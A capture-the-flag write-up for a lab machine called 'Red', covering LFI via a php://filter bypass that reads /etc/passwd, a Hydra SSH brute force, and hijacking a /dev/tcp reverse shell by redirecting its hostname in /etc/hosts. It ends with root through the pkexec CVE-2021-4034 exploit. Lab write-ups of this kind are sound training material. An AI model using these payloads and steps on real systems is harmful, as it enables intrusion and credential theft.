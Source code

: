 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Red)](https://git.io/typing-svg)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/5975098a-9a2f-4268-8b75-21409f7da8c2)

## Description

```
The match has started, and Red has taken the lead on you.
But you are Blue, and only you can take Red down.

However, Red has implemented some defense mechanisms that will make the battle a bit difficult:
1. Red has been known to kick adversaries out of the machine. Is there a way around it?
2. Red likes to change adversaries' passwords but tends to keep them relatively the same. 
3. Red likes to taunt adversaries in order to throw off their focus. Keep your mind sharp!

This is a unique battle, and if you feel up to the challenge. Then by all means go for it!
Whenever you are ready, click on the Start Machine button to fire up the Virtual Machine.
```



# Enum

Let's start with a quick Nmap scan.
### Nmap Scan


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2023-07-16 15:48 +01
Nmap scan report for 10.10.27.215
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```
It appears that there is an Apache2 web server running on port 80.
I have come across a parameter in the URL. Let's investigate it further by examining the following URL: 

```"http://10.10.27.215/index.php?page=home.html".```


Let's proceed with brute-forcing to discover potential files within this parameter.

```bash
ffuf -u http://10.10.27.215/index.php?page=FUZZ -w /usr/share/wordlists/dirb/common.txt -fw 1
```

```bash
index.php               [Status: 200, Size: 351, Words: 45, Lines: 18]
```
By visiting the provided endpoint, we have discovered a PHP code comment within the source code.

```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```
I successfully bypassed the PHP str_replace function by utilizing [php:///filter/resource=/etc/passwd](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```
It appears that there are three users: root, blue, and red.

I attempted to locate some logs for potential log poisoning, but unfortunately, I couldn't.

Finally, I have managed to obtain some valuable information.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/bbe20e0e-c133-4b98-a554-786782c1615c)

The user "blue" attempted to enhance the security of their password by implementing various rules. However, I was able to get access. 
I generated a password list and successfully performed a brute force attack on "blue"'s password using Hydra.


```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-16 16:16:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:1/p:77), ~5 tries per task
[DATA] attacking ssh://10.10.27.215:22/
[22][ssh] host: 10.10.27.215   login: blue   password: [PASS]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-16 16:16:51
```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/df1d55df-fbc1-424a-be5e-496b96adc92a)

# Priv

I keep getting msg from the shell

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e84fab96-22fe-46b4-8a44-6096304e62e4)

And the password keeps changing every time the shell kicks me out.

Every time I receive a message, I start another shell to continue the process.


By running pspy64;

```toml
2023/07/16 15:25:57 CMD: UID=1001  PID=2685   | bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 & 
```
I added my IP to /etc/hosts in order to obtain a reverse shell.

```bash
blue@red:/tmp$ echo 10.18.81.222 redrules.thm >> /etc/hosts
```

```bash

achux@Fs:~$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.27.215 33578
bash: cannot set terminal process group (2955): Inappropriate ioctl for device
bash: no job control in this shell
red@red:~$

```

```bash
red@red:~$ ll
total 36
drwxr-xr-x 4 root red  4096 Aug 17  2022 ./
drwxr-xr-x 4 root root 4096 Aug 14  2022 ../
lrwxrwxrwx 1 root root    9 Aug 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 red  red   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 red  red  3771 Feb 25  2020 .bashrc
drwx------ 2 red  red  4096 Aug 14  2022 .cache/
-rw-r----- 1 root red    41 Aug 14  2022 flag2
drwxr-x--- 2 red  red  4096 Aug 14  2022 .git/
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
```

`.git` weird folder!!


```bash
red@red:~/.git$ ll
total 40
drwxr-x--- 2 red  red   4096 Aug 14  2022 ./
drwxr-xr-x 4 root red   4096 Aug 17  2022 ../
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec*
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

I believe we can exploit that situation.

[💜 CVE-2021-4034](https://github.com/Almorabea/pkexec-exploit/blob/main/CVE-2021-4034.py)

Simply copying and pasting the exploit will not be sufficient to achieve our goal. 
We need to understand the exploit thoroughly and tailor it to the specific context in order to successfully exploit the vulnerability.

we need to change this part;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/461ff9c5-b4b3-48ec-9f22-1b866bdae411)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/76680a06-8b3c-4b84-8531-4989a8dc859d)

```bash


# whoami
root

```

Congratulations on successfully compromising the machine! Well done! If you need any further assistance in the future, feel free to reach out. Take care and goodbye! 💜
